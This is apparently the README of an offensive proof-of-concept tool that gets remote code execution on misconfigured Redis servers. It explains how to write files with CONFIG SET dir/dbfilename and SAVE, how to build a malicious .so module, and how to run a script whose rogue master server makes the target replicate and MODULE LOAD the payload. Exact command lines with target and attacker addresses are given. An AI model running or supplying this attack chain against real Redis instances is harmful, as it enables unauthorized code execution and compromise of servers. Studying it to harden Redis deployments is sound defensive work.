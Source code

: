 # redis-module-rce

A practical Proof-of-Concept (PoC) demonstrating remote code execution (RCE) in Redis via module loading. This exploit targets Redis instances with misconfigurations or weak security controls that allow loading of arbitrary `.so` modules into the Redis server process. This project is built on the foundational work of the following two excellent PoCs:

- [Redis Rogue Server Exploit](https://github.com/n0b0dyCN/redis-rogue-server)
- [Redis Module for Code Execution](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)

All credit to the original authors for their research and contributions.

## Vulnerability Overview

This vulnerability leverages Redis's ability to load shared object (`.so`) modules at runtime. If an attacker can gain access to an exposed or misconfigured Redis instance, they can execute arbitrary code on the target system. Exploitation requires two conditions to be met:

1. **Privileged Access to Redis**
   - The attacker must be able to issue privileged Redis commands such as `MODULE LOAD`.
   - This is possible if:
     - The Redis instance is exposed to the internet without authentication.
     - The attacker has acquired valid credentials to an authenticated instance.
   - Redis does not restrict module loading by default. Unless explicitly disabled, this capability is broadly accessible in insecure deployments.

2. **Writable Location on Target Filesystem**
   - The attacker must be able to place a malicious `.so` file on the target machine.
   - Two main techniques can be used:
       - Abuse Redis’s persistence settings: using `CONFIG SET dir` and `CONFIG SET dbfilename`, combined with `SAVE`, an attacker can write arbitrary files to locations such as `/tmp/`.
       - Upload externally: if another service (e.g., FTP) exposes a writable path, the attacker can upload the `.so` file and instruct Redis to load it by its absolute path.

Once the malicious module is in place, Redis will load it and execute the attacker's code within the server's process space, effectively achieving RCE.

## Project Structure

```bash
.
├── redis-rce.py          -> Exploit script (Python)
└── module/
    ├── module.c          -> Malicious Redis module source
    ├── redismodule.h     -> Redis module API header
    └── Makefile          -> Build file for compiling module.so
```

## Requirements

- Python 3.x
- GCC (for compiling the malicious module)
- Redis server (v4.0 or later)
- Target Redis instance must be:
  - Accessible from the attacker's machine
  - Accepting configuration changes (`CONFIG SET`, `MODULE LOAD`, etc.)

## Building the Module

To compile the malicious `.so` module:
```bash
cd module
make
```
This will generate the shared object file: `module.so`

## Running the Exploit

Basic usage:

```bash
python3 redis-rce.py --rhost <target_ip> --lhost <your_ip>
```

Arguments:
```bash
$ ./redis-rce.py -h
Usage: redis-rce.py [options]

Options:
  -h, --help           show this help message and exit
  --rhost=REMOTE_HOST  target host
  --rport=REMOTE_PORT  target redis port (default 6379)
  --lhost=LOCAL_HOST   rogue server ip
  --lport=LOCAL_PORT   rogue server listen port (default 6379)
  --exp=EXP_FILE       Redis Module to load (default module.so)
  -v, --verbose        Show full data stream (optional)
  --passwd=RPASSWD     target redis password (optional)
```

Example:
```bash
python3 redis-rce.py --rhost 10.10.10.100 --lhost 192.168.45.100 --lport 6379 --exp module/module.so
```
Note: The exploit script includes a rogue server that mimics a Redis master. When the target is tricked into becoming a slave of this rogue server, it fetches and writes the malicious payload to disk, which is then loaded via `MODULE LOAD`.

## Disclaimer

This tool is provided for educational and research purposes only. Unauthorized use against targets without explicit permission is strictly prohibited. The authors accept no liability for any misuse or damage caused by this software.

